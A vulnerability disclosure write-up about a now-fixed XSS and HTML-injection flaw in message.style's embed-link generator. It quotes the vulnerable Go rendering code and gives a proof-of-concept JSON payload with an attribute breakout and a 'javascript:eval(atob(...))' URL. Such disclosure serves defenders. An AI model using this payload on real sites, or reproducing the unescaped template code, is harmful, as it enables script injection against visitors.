

## Look at my embed, trust me!
*Fixed on: 08/05/2026*

[Website](https://message.style) | [Discord](https://message.style/discord)

This website is much like Discohook, but has some features like this set of tools that Discohook doesn't have:


[It's open source](https://github.com/merlinfuchs/embed-generator), also.

From the above tools, the `Embed Links` lets you generate links that you can use to easily send embeds in your message:


This is sent via `POST` to `/api/embed-links` for creating the link in question:

```json
{
    "url":"https://google.com",
    "theme_color":null,
    "og_title":"test",
    "og_description":"testing123",
    "og_image":"",
    "og_site_name":"",
    "oe_type":null,
    "oe_author_name":"",
    "oe_author_url":"",
    "oe_provider_name":"",
    "oe_provider_url":"",
    "tw_card":"summary_large_image"
}
```

This is not too interesting, but if we look at the code that generates the page for the embed (the route `/e/:linkID`):

```go
// embedg-server/api/handlers/embed_links/render.go
func renderEmbedLinkHTML(c *fiber.Ctx, el pgmodel.EmbedLink) error {
	metaTags := metaTagsToHTML(map[string]string{
		"og:title":       el.OgTitle.String,
		"og:site_name":   el.OgSiteName.String,
		"og:description": el.OgDescription.String,
		"og:image":       el.OgImage.String,
		"theme-color":    el.ThemeColor.String,
		"twitter:card":   el.TwCard.String,
	})

	if el.ID != "" {
		oEmbedURL := fmt.Sprintf("%s/embed-links/%s/oembed", viper.GetString("api.public_url"), el.ID)
		metaTags += fmt.Sprintf(`<link type="application/json+oembed" href="%s" />`, oEmbedURL)
	}

	html := fmt.Sprintf(embedLinkHTML, metaTags, el.Url)

	c.Set("Content-Type", "text/html")
	return c.SendString(html)
}
```

It is using the `fmt#Sprintf` function without any validation against this variable:

```go
const embedLinkHTML = `
<!DOCTYPE html>
<html>
<head>
%s

<script>
	window.location.replace("%s");
</script>
</head>
</html> 
```

As there no validation whatsoever in the previous mentioned endpoint, this means that we can inject a `javascript:<code>` URL here, or add `")` and inject any other JavaScript code (or HTML).

Moreover, the `metaTagsToHTML` function doesn't make any escaping too:

```go
func metaTagsToHTML(metaTags map[string]string) string {
	res := ""

	for key, value := range metaTags {
		if value != "" {
			res += `<meta property="` + key + `" content="` + value + `">` + "\n"
		}
	}

	return res
}
```

So, creating a link with this data:

```json
{
    "og_title":"sample website",
    "og_description":"this is a sample website\"> <h1>haha I hacked you</h1> <div class=\"",
    "url":"javascript:eval(atob('YWxlcnQoJ0dFVCBQV05FRCBCSVRDSCcpOwo='));"
}
```

Would create this malicious page:



The dev took some days to read my message, but he fixed the bug quickly.